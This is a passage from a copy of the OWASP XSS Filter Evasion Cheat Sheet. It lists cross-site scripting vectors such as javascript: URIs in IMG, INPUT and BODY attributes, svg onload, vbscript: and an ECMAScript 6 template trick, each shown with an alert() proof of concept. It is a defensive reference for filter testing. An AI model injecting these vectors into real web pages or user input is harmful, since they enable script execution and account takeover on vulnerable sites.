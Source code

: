 This is a simple XSS vector that closes &lt;TITLE&gt; tags, which can encapsulate the malicious cross site scripting attack:
<pre>&lt;/TITLE&gt;&lt;SCRIPT&gt;alert("XSS");&lt;/SCRIPT&gt;
</pre>
<h2><span id="INPUT_image" class="mw-headline">INPUT image</span></h2>
<pre>&lt;INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');"&gt;
</pre>
<h2><span id="BODY_image" class="mw-headline">BODY image</span></h2>
<pre>&lt;BODY BACKGROUND="javascript:alert('XSS')"&gt;
</pre>
<h2><span id="IMG_Dynsrc" class="mw-headline">IMG Dynsrc</span></h2>
<pre>&lt;IMG DYNSRC="javascript:alert('XSS')"&gt;
</pre>
<h2><span id="IMG_lowsrc" class="mw-headline">IMG lowsrc</span></h2>
<pre>&lt;IMG LOWSRC="javascript:alert('XSS')"&gt;
</pre>
<h2><span id="List-style-image" class="mw-headline">List-style-image</span></h2>
Fairly esoteric issue dealing with embedding images for bulleted lists. This will only work in the IE rendering engine because of the JavaScript directive. Not a particularly useful cross site scripting vector:
<pre>&lt;STYLE&gt;li {list-style-image: url("javascript:alert('XSS')");}&lt;/STYLE&gt;&lt;UL&gt;&lt;LI&gt;XSS&lt;/br&gt;
</pre>
<h2><span id="VBscript_in_an_image" class="mw-headline">VBscript in an image</span></h2>
<pre>&lt;IMG SRC='vbscript:msgbox("XSS")'&gt;
</pre>
<h2><span id="Livescript_.28older_versions_of_Netscape_only.29" class="mw-headline">Livescript (older versions of Netscape only)</span></h2>
<pre>&lt;IMG SRC="livescript:[code]"&gt;
</pre>
<h2><span id="SVG_object_tag" class="mw-headline">SVG object tag</span></h2>
<pre>&lt;svg/onload=alert('XSS')&gt;
</pre>
<h2><span id="ECMAScript_6" class="mw-headline">ECMAScript 6</span></h2>
<pre>Set.constructor`alert\x28document.domain\x29```
</pre>
<h2><span id="BODY_tag" class="mw-headline">BODY tag</span></h2>
Method doesn't require using any variants of "javascript:" or "&lt;SCRIPT..." to accomplish the XSS attack). Dan Crowley additionally noted that you can put a space before the equals sign ("onload=" != "onload ="):
<pre>&lt;BODY ONLOAD=alert('XSS')&gt;

take from</pre>
<a href="https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet">https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet</a>